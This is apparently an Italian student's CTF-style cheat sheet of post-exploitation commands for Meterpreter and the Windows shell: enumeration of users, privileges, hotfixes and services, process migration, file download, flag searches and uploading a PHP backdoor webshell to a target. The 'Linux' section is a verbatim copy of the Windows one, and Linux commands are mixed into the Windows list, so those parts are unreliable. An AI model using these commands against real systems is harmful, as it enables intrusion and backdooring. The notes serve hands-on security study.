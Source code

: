 

## Command meterpreter Windows
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (full privilege with NT-WINDOWS )
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
	• lpwd (mostra la cartella locale)
	• download flag5.zip (scarica il zip)
	• checksum md5 /bin/bash (tira fuori il checksum)
	• getenv PATH (ti dà il path di dove sono le variabili d'ambiente)
	• search -d /usr/bin -f *flag* -r (-d cerca dalla directory che indichi, -f indichi cosa cerchi e metti -r se vuoi cercare nelle 	  sue sottocartelle)
	• upload /usr/share/webshells/php/php-backdoor.php (carica una webshell nel target)

## Command shell Windows
	• hostname (enumera gli hostname del sistema)
	• systeminfo (informazioni di sistema, versione OS, Os build number, hardware configuration, windows hotfix installed)
	• wmic qfe get Caption,Description,HotFixID,InstalledOn (hotfix installati con vari dettagli)
	• whoami
	• whoami /priv (enumera l'utente e i suoi privilegi)
	• net users (lista gli user accounts)
	• net user administrator (mostra le informazioni di configurazione di tale account)
	• net localgroup (enumera i gruppi che ci sono nel sistema)
	• net localgroup administrators (mostro quali sono gli utenti che sono nel gruppo administrators)
	• ip a s (mostra le network interfaces connesse al computer)
	• cat /etc/networks (lista le network configurate)
	• cat /etc/hosts (enumera i domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (mostra il DNS nameserver ip)
	• net start (enumera la lista dei servizi in running)
	• wmic service list brief (uguale al comando di sopra, ma da anche informazioni dettagliate)
	• tasklist /SVC (mostra la lista dei task in running e il corrispettivo servizio)
	• schtasks /query /fo LIST (enumera la lista dei task schedulati)
	• Get-ChildItem -Path C:\Users -Recurse -filter *flag*.txt (cerca il flag nel punto che dici tu)
	• cd /
	• dir
	• type flag.txt
	

## Command meterpreter Linux
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (full privilegi with NT-WINDOWS )
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
 